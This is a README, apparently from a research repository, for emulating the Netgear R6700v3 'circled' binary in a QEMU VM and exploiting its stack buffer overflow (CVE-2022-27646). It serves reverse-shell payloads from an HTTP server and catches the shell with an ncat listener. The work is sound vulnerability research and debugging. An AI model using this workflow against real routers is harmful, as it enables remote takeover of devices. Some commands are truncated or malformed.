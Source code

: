 # Exploiting a Stack Buffer Overflow on the Netgear R6700v3 (CVE-2022-27646)
## 1. Setup
### 1.1 Host System
- Install the following dependencies:
  - git
  - binwalk (https://github.com/ReFirmLabs/binwalk)
- Clone the repository:
  ```
  git clone https://github.com/pdamian/netgear_r6700v3_circled.git && cd netgear_r6700v3_circled/
- Extract the R6700v3 firmware with *binwalk*:
  ```
  binwalk -e -M -C firmware/ firmware/R6700v3-V1.0.4.120_10.0.91.zip
  ```
- Copy the following files to the firmware's root filesystem:
  ```
  # Variable to the root filesystem
  export ROOTFS="$(pwd)/firmware/_R6700v3-V1.0.4.120_10.0.91.zip.extracted/_R6700v3-V1.0.4.120_10.0.91.chk.extracted/squashfs-root"
  
  # Copy pre-built gdbserver binary (or compile your own statically-linked version)
  cp firmware/bins/gdbserver $ROOTFS/gdbserver
  
  # Copy pre-built libnvram.so library (or compile your own version)
  cp firmware/bins/libnvram.so $ROOTFS/libnvram.so
  
  # Copy pre-built libcircled.so library (or compile your own version)
  cp firmware/bins/libcircled.so $ROOTFS/libcircled.so

  # Patch the circled binary
  python3 firmware/circled.patch.py $ROOTFS/bin/circled $ROOTFS/bin/circled.patched
  
  # Copy circled.sh script
  cp firmware/circled.sh $ROOTFS/circled.sh
  ```
- Copy the directories `$ROOTFS/` and `server/` to an ARMHF guest system (e.g. a *QEMU* ARMHF Debian VM).
### 1.2 ARMHF Guest System
- In the following, we assume that the variable $ROOTFS points to the copied firmware's root filesystem.
- Start the HTTP server delivering the payloads:
  ```
  # Using the default payloads triggering a reverse shell (use `--cmd` for a custom stage 0 payload)
  python3 server/circled.server.py
  ```
- In case the HTTP server was started with the default stage 0 payload (i.e. without customizing `--cmd`), listen for the reverse shell coming in on TCP port 5001:
  ```
  server/bins/ncat -l -p 5001
  ```
- Emulate the vulnerable *circled* binary:
  - Configure conservative ASLR as being used on the Netgear R6700v3:
    ```
    echo 1 | sudo tee /proc/sys/kernel/randomize_va_spac
    ```
  - Chroot into the root filesystem:
    ```
    sudo mount -t proc /proc/ $ROOTFS/proc/
    sudo mount -t sysfs /sys/ $ROOTFS/sys/
    sudo mount -o bind /dev/ $ROOTFS/dev/
    sudo chroot $ROOTFS/ /bin/sh
    ```
  - Execute the *circled* binary:
    ```
    export SHELL=/bin/sh

    # With GDB and therefore without ASRL (omit `--gdb` to run without GDB and with ASRL enabled)
    ./circled.sh --gdb
    ```
# 2. Morion Tracing
- Trace crash (`gdb-multiarch -q -x circled.gdb`)
## 2. References
- Emulating Netgear R6700v3 cicled binary:
  - https://medium.com/@INTfinity/1-1-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-1-5bab391c91f2
  - https://medium.com/@INTfinity/1-2-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-2-cf1571493117
  - https://medium.com/@INTfinity/1-3-exploiting-and-debugging-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-a80dbaf1245d
- Emulating IoT Firmware Made Easy:
  - https://boschko.ca/qemu-emulating-firmware/
- Defeating the Netgear R6700v3:
  - https://www.synacktiv.com/en/publications/pwn2own-austin-2021-defeating-the-netgear-r6700v3.html
- Chroot:
  - https://wiki.archlinux.org/title/Chroot#Using_chroot
- Ready-to-Use Cross-Compilation Toolchains:
  - https://toolchains.bootlin.com/
- NVRAM Emulator:
  - https://github.com/firmadyne/libnvram
